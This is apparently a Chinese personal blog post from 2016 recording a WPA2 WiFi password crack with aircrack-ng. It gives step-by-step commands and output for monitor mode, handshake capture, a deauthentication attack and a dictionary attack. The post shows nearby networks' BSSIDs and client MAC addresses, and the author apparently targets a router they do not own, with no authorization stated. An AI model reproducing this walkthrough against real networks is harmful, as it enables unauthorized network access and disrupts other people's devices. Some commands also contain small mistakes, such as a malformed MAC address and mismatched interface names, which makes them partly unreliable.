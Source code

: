 ```yaml
---
layout: post
title:  "一次wifi破解记录"
categories: 不折腾被变羊
tags:  Hacker
---
```


* content
{:toc}


## 0x00 前言

wifi破解工具有很多，比如wifite、aircrack、cowpatty、reaver等等，其中wifite是最傻瓜式的，但是个人尝试很久，没有破解成功一次，我就很好奇，是我的方式不对？cowpatty只管破解，因此还是要和air结合起来用。reaver破解的非常非常慢，一次要很久，但是一般都能搞定。这次先用aircrack。





## 0x01 准备

装逼要用全套的，特意买的3070的网卡，专用破解。

据说效果很好，但是我完全体会不到......

```
~$ lsusb
Bus 001 Device 014: ID 148f:3070 Ralink Technology, Corp. RT2870/RT3070 Wireless Adapter

~$ iwconfig
wlan1     IEEE 802.11bgn  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
```

## 0x02 获取握手包

### 1.激活监听模式

```
~$ airmon-ng start wlan1

PHY     Interface       Driver          Chipset
phy1    wlan1           rt2800usb       Ralink Technology, Corp. RT2870/RT3070

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)
                (mac80211 station mode vif disabled for [phy1]wlan1)
```

激活之后就发现名称变了，多了个mon，后面的mode是monitor。

```
~$ /home/dante# iwconfig

wlan1mon  IEEE 802.11bgn  Mode:Monitor  Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

### 2. 获取wifi信息
```
airodump-ng wlan0mon
下面就会显示出所有的wifi的链接信息。之前遗漏了这一块，暂时不补了。

```

### 3.抓包

破解的过程就是先抓包，抓到它的四次握手包，然后破解出密码。

```
airodump-ng --ivs -w filename -c wlan1mon
```

```
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 5C:63:BF:61:8B:C8  -58      639      761    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -66      330        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 C0:61:18:22:8B:2B  -65      620      547    0   6  54e. WPA2 CCMP   PSK  tunshi6
 64:09:80:4B:FC:2C  -71      223     2184    1   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 5C:63:BF:61:8B:C8  A4:C4:94:DB:10:1A  -44    0 - 2e     0      153  quan
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -84    0e- 1      0      558  tunshi6
 64:09:80:4B:FC:2C  AC:B5:7D:D1:00:62   -1    1e- 0      0      154
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94  -80    1e- 1      0     1369  su8-1
 ......
```

### 4.Deauth攻击

现在对脸上路由器64:09:80:4B:FC:2C上的设备64:09:80:4B:FC:2C进行攻击。

```
~$ aireplay-ng -0 10 -a 64:09:80:4B:FC:2C -c 64:09:80:4B:FC:2C4 wlan1mon --ignore-negative-one
13:18:29  Waiting for beacon frame (BSSID: 64:09:80:4B:FC:2C) on channel -1
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:32  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
```
可以看到，当发送攻击的时候，你攻击的那台设备就会丢包。

```
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -86    0e- 1      0      834  tunshi6
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94    0    0e- 1    373     3782  su8-1
```

发送了好几次攻击，过了二十多分钟才获取到握手包。可以看到下面获取到了handshake

```
  CH  4 ][ Elapsed: 25 mins ][ 2016-03-06 13:34 ][ WPA handshake: 64:09:80:4B:FC:2C

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 5C:63:BF:61:8B:C8  -58     1973      909    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -64     1062        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 64:09:80:4B:FC:2C  -73      707     4411    0   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7
 ......
```
## 0x03 破解

破解就是用了爆破，完全是看字典！

```
aircrack-ng -w dic.txt test-0*.cap

```
然后选定需要破解的wifi即可开始进行破解。话说，运气不好的时候，打死也破解不出来.......

```
                           Aircrack-ng 1.2 rc3


                   [00:00:31] 12552 keys tested (381.79 k/s)


                       Current passphrase: 123bandit


      Master Key     : E3 A0 4F 08 DC D9 95 A5 87 48 02 B5 E1 93 C6 84
                       75 DD 23 E8 45 65 DD CA B8 89 53 96 75 E8 56 10

      Transient Key  : 11 24 33 3A FE 8F 51 E6 7D 7C C5 C2 BB 9B 0B 6F
                       4F 99 8C 5D 67 2B E2 6A 9C 34 2A 4A FB 1D 19 4F
                       84 C4 4C 8D 58 3B 22 70 C9 36 FD 98 D9 D6 E6 94
                       72 C9 AF 54 E1 B2 83 F1 EF 2A FA 0C 7D 59 3A 96

      EAPOL HMAC     : 80 84 40 03 84 DC E4 20 41 FF 74 C8 FB 1C DE EB
```

## 0xFF 总结

aircrack的确是神器，用好了破解个wifi不是太大问题的，不过也就弱密码比较好搞定一些，有些意识比较强的孩子密码设置的比较神奇，基本也没戏。

不过破解的方式也总是在提高，比如彩虹表、GPU这些各种高效的方式都可以使用，目前爆破能拿来玩一玩，剩余的慢慢研究。

**补充**

其实到头来都是在用工具，对里面的原理还没有太深的理解，下一步多了解一些使用方式后，着重自己动手写一些程序来操作。


***
2016-03-06 19:18:00 hnds
